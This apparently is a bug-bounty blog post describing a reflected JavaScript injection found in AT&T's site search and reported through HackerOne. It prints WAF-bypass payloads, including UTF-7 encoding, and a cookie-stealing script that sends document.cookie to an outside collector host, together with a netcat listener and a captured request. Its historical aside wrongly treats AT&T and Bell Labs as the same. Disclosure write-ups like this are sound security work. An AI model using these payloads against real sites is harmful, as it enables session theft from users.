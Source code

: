 ```yaml
---
title: Small Bugs, Big Bugs
date: 2021-09-09
categories: [appsec]
tags: [appsec]
excerpt: In February 2020, I decided to check out web application security programs on HackerOne.
---
```

## Then

In February 2020, I decided to check out web application security programs on HackerOne. I
set my eyes on AT&T for the novel fact that, in the 1960s, they almost invented the 
internet, 
but their research was prematurely halted citing costs and technical hurdles. Nonetheless, AT&T's Picturephone is a historical but often forgotten piece of history.


After burning nearly $500 million dollars on the effort, AT&T, then known as Bell Labs, scrapped the project entirely. And later, the Advanced Research Projects Agency and Department of Defense would lay claim to inventing the base technologies which would eventually grow to become the Internet.

![Picture phone!](/picturephone.jpeg)

## Now

Fast forward to today. The web is at full sprawl. It's technologies, for better or worse, are spread ubiquitously across the landscape.  Which means bugs and security vulnerabilities, of every variation, all the way down.


And I mean it with love when I say that Javascript is a lot like the new Adobe Flash. It's everywhere. And it's not going away anytime soon. So, it was both surprising and amusing to find a Javascript injection on the front page of AT&T right off the bat.

![Picture phone!](/atthome.png)


## Javascript Forever

Enumerating some of the endpoints on AT&T, I noticed AT&T's global search function.<

```plaintext
https://www.att.com/global-search/search?q=
```


Primitive payloads were filtered by the Web Application Firewall, so I started experimenting with backslashes and other weird symbols, riffing on some of the scripts similar to those in the PayloadAllTheThings repository.


Several methods slid by the WAF. The initial bypass I found was via UTF-7 encoding. And then alerts wrapped recursively in slashes, as the WAF would trim the outer string, but not the inner one, resulting in Javascript successfully firing off.

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

```javascript
onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## Better Javascript Injection

What if we linked our endpoint and parameter with a payload that, instead of just pushing an alert, forwarded an AT&T user's cookies to our server instead?


With our EC2 running and netcat listening, `nc -lvk 80`, we could have phished for users with something like:

```javascript
onclick=alert(0)//<x//> */<script>var x=new Image;x.src="http://collector.com/c?"+document.cookie;></script>
```

```plaintext
GET /?c=ides_stack=ffdc;%20UUID=5ffed473-7499-a532-55cc-2dd805e22347;%20rxVisitor=1610536052551ME0RQ4NIKFI7HSPH1QN16E613GTL8KK5;%20dtSa=-;%20check=true;%20AMCVS_55633F7A534535110A490D44%40AdobeOrg=1;%20AMCV_55633F7A534535110A490D44%40AdobeOrg=1994364360%7CMCMID%7C45961868193201069648845035995403097869%7CMCAID%7CNONE%7CMCOPTOUT-1610543253s%7CNONE%7CvVersion%7C3.4.0;%20TLTSID=0D2C3598EC12B6969588B251277DC370;%20mbox=session HTTP/1.1
Host: 6.6.6.6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```


Furthermore, beyond cookie theft, we could have potentially used JavaScript injection to initialize account actions or steal authentication tokens. But registering an account required having a service contract with AT&T. So my testing stopped there. I immediately dropped AT&T a note about this and they patched shortly after.